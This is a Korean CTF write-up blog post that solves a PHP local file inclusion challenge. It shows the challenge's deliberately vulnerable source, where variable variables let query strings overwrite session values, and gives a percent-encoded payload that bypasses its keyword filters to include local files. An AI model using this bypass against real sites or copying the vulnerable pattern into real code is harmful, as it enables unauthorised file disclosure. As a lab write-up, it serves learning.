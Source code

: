 ```yaml
---
layout: post
category: [web]
title: PHP LFI
---
```


## [문제](http://h4ckingga.me/challenges#Season1%20:%20Real%20PHP%20LFI-32)

## 문제 확인
![prob](/assets/img/2024-08-25-php-real-lfi/webpage.png)

/flag 파일을 LFI 을 통해 플래그를 획득하면 되는 문제이다.

LFI에 대한 설명은 [이전 포스트](https://blog.kafuu.space/2024-08-20-php-lfi/)의 "LFI 란?" 섹션을 참고하자.

## 서버 소스코드
이 문제에는 소스코드가 제공되기 때문에, 소스코드를 확인해보았다.

### config.php
```php
<?php 

// PHP 세션을 만든다.
session_start();

$admin = FALSE;

if($_SERVER['REMOTE_ADDR']){
    $admin = TRUE;
}

// 세션의 'include_path' 를 = 'nav.php' 로 설정.
$_SESSION['include_path'] = 'nav.php';
$_SESSION['admin'] = $admin;

// /, base64 을 필터링한다.
function fuck_path_change_or_check($path){
    if(preg_match("/\//isUD", $path)){
        exit("어이쿠 걸려버렸네?");
    }elseif(preg_match("/base64/i", $path)){
        exit("어이쿠 걸려버렸네?");
    }else{
        // \ 를 / 로 변경한다.
        return str_replace("\\", "/", $path);
    }
}

// _, session 등의 키워드를 필터링합니다.
function fuck_extract_filtering($get){
    if(preg_match("/_|session/isUD", $get)){
        exit("으아닛 이건 안된다구!");
    }else{
        return fuck_path_change_or_check($get);
    }
}

?>
```

### index.php
```php
<?php 

// config.php 를 포함시켜 함수를 사용할 수 있게 한다.
include("config.php");

// $query 변수에 fuck_extract_filtering 결과값을 넣는다 (요청으로 받은 쿼리스트링을 인자로 넘김)
$query = fuck_extract_filtering($_SERVER['QUERY_STRING']);


parse_str($query, $arr); // $arr 변수에 쿼리스트링을 파싱해서 넣는다 key-value 형태의 변수

foreach($arr as $key=>$value){
    // 취약한 부분, Variable variables 를 사용하여 로컬 변수를 key 값으로 덮어씌울수 있음, LFI 를 하기  'nav.php' 를 'flag' 로 바꿔쳐야한다.
    $$key = fuck_path_change_or_check($value);
}

// $_SESSION['include_path'] 값을 include
include($_SESSION['include_path']);

?>

<div style="magin-top:100px;">
안녕하세요 저희는 ElePHPant팀입니다 이번에 PHP 언어를 이용하여 개발 공부를 시작했는데요
아직 많이 부족한 지식으로 테스트용으로 개발된 사이트지만 보기만 하세요.. 보기만 하라니깐요?(^__________^)
</div>
```

(nav.php 는 navbar 템플릿이기 때문에 생략합니다.)


## 공격 방법
이 코드에서는 쿼리스트링 문자열 전체에 대한 필터링과, 쿼리스트링 값이 반복문을 순회하며 필터링된다.

또한 [동적 변수(Variable Variables)](https://www.php.net/manual/en/language.variables.variable.php) 이름으로 사용자의 입력 값을 사용하고 있기 때문에 변수를 덮어씌워버릴 수 있다.

예를 들어
```php
<?php
    $important_variable = "do not touch it"

    $varname = $_GET['varname'];
    $$varname = $_GET['value'];

    echo "Value of important_variable: " . $important_variable
?>
```

위 코드에서 사용자가 ``varname`` 쿼리스트링에 ``important_variable`` 을 넣고, ``value`` 쿼리스트링에 다른 값을 넣게 된다면, 위에 선언되어 있는 변수의 값을 바꿀 수 있을 뿐만 아니라, varname에 GLOBALS 를 이름으로 넣어 조작할 경우, 전역 변수를 조작할수 있다.

``my_script.php?varname=important_variable&value=hacked``

그러므로 이 문제에서 LFI 를 실행하기 위해서는
  - 필터링 함수를 우회해야한다.
  - ``_SESSION['include_path']`` 를 ``/flag`` 로 덮어씌워야한다.

이 두가지의 조건에 맞게 페이로드를 작성하면 된다.

필터링을 우회하기 위해 퍼센트 인코딩을 사용하였다.

| 문자 | 인코딩 |
|---|---|
| / | %2f |
| _ | %5f |
| [ | %5b |
| ] | %5d |
| S | %53 |
| " | %22 |

16진수 아스키코드 값으로 일반적인 환경에서는 필요하지 않지만, 이 문제에서는 필터링을 우회하기 위해 알파벳을 퍼센트 인코딩으로 변환하여 사용하였다.

페이로드는 아래와 같다.

```
/?%5F%53ESSION%5Binclude%5Fpath%5D=%2Fproc%2Fcpuinfo
```

## 결과

``fuck_extract_filtering()`` 함수는 퍼센트 인코딩된 문자열을 필터링하지 못하였다

<!-- ``parse_str()`` 함수가 쿼리 문자열을 파싱하면서 URL 디코딩을 수행하여, 결과적으로 ``$arr['_SESSION']['include_path']`` 가 되었다. -->

foreach 루프에서 가변 변수 기능으로 인해 ``$_SESSION['include_path'] = '/flag'`` 로 덮어씌워져 세션 변수가 변조되었다.

마지막으로 ``include($_SESSION['include_path']);`` 가 실행되면서 ``'/flag'`` 파일의 내용이 포함되어 출력되었습니다.

![flag](/assets/img/2024-08-25-php-real-lfi/flag.png)